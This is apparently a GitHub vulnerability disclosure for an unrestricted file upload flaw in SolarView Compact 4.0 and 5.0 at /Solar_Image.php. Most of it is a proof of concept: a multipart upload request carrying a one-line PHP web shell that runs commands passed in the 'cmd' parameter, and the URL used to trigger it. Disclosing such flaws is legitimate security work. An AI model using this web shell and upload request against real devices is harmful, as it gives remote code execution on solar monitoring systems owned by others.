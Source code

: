 # Unrestricted File Upload vulnerability in SolarView Compact 4.0,5.0

## Description 

Unrestricted File Upload vulnerability in SolarView Compact 4.0,5.0 at /Solar_Image.php can allow attackers to get a Remote Code Execution on the vulnerable host via upload crafted php file.

## POC

1. navigate to /Solar_Image.php
2. ulpad any php file and caputre the request
3. update the `userfile` and `upfilename` parameters like this:
```
-----------------------------168287165333758025211172961484
Content-Disposition: form-data; name="userfile"; filename="shell.php"
Content-Type: application/octet-stream

<?php echo "Shell";system($_GET['cmd']); ?>
-----------------------------168287165333758025211172961484
Content-Disposition: form-data; name="upfilename"

shell.php
-----------------------------168287165333758025211172961484
```

4. send the request and navigate to /images/background/shell.php?cmd=ls

![image](https://user-images.githubusercontent.com/94288990/198074244-b0821414-1858-4bcc-9ed4-404684564272.png)

